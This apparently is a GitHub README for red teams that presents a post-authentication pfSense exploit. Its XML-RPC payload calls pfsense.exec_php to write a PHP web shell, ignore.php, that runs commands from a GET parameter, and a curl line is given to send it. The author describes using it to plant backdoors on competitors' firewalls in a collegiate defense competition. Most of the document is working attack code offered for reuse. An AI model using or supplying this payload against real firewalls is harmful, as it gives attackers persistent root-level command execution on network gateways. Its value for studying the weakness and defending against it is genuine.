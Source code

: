 # Quick Introduction

This is a sample payload and example use of abusing pfSense's xmlrpc.php functions to establish a backdoor
and get root level access to pfSense firewalls.

This exploit is post-auth (for the admin account) and as it stands is considered a non-issue according to 
the pfSense security team, since this password is shared for both the web and ssh services.  I am releasing 
it because I thought it was interesting and could be handy for other Red Teams.

This was discovered during the 2015 [SECCDC](http://en.wikipedia.org/wiki/Southeastern_Collegiate_Cyber_Defense_Competition) 
competition and was used to drop active backdoors on teams firewalls.

## The XML payload
This payload can be sent to the pfSense box, it will utilize the `pfsense.exec_php` method to write a very simple 
php backdoor named `ignore.php` to the webroot on the firewall.

```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pfsense.exec_php</methodName>
<params>
<param><value><string>password</string></value></param>
<param><value><string>exec('echo \'&lt;pre&gt; &lt;?php $res = system($_GET["cmd"]); echo $res ?&gt; &lt;/pre&gt;\' > /usr/local/www/ignore.php');</string></value></param>
</params>
</methodCall>
```

## Simple usage
Using this payload against the pfSense xmlrpc.php file is a simple HTTP request using curl

```
curl --data pfsense_exec http://10.10.100.1/xmlrpc.php
```

## The backdoor in use at SECCDC
![ignore.php in use](/images/backdoored.png)
